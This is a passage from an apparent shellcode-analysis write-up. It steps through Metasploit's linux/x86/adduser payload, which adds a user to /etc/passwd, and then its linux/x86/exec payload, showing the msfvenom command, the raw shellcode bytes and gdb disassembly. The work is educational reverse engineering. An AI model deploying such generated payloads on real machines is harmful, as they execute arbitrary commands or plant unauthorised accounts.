 ### exit
``` assembly
0x0804c097 <+87>:	push   0x1
0x0804c099 <+89>:	pop    eax
0x0804c09a <+90>:	int    0x80
```
The last commands save 0x1 in eax which stands for the exit function which is then executed.
``` c
noreturn void _exit(int status);
```

![Exit](images/adduser/exit.png)

After executing the complete program We can take a look in the /etc/passwd and we see that our user1 is added with a password

![etc-passwd](images/adduser/etc-passwd.png)

___


## linux/x86/exec
The second payload I want to analyze is linux/x86/exec
``` c
msfvenom -p linux/x86/exec CMD="touch HelloWorld.txt" -f C –platform linux -a x86
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 56 bytes
Final size of c file: 260 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x15\x00\x00\x00\x74"
"\x6f\x75\x63\x68\x20\x48\x65\x6c\x6c\x6f\x57\x6f\x72\x6c\x64"
"\x2e\x74\x78\x74\x00\x57\x53\x89\xe1\xcd\x80";
```
In the fist shellcode I used ndiasm already so I will jump direclty in gdb and the ndiasm output is anyway in github with the compiled c file. The shellcode instructions for this shellcode in gdb are the following:
``` assembly
0x0804c040 <+0>:	push   0xb
0x0804c042 <+2>:	pop    eax
0x0804c043 <+3>:	cdq    
0x0804c044 <+4>:	push   edx
0x0804c045 <+5>:	pushw  0x632d
0x0804c049 <+9>:	mov    edi,esp
0x0804c04b <+11>:	push   0x68732f
0x0804c050 <+16>:	push   0x6e69622f
0x0804c055 <+21>:	mov    ebx,esp
0x0804c057 <+23>:	push   edx
0x0804c058 <+24>:	call   0x804c072 <code+50>
```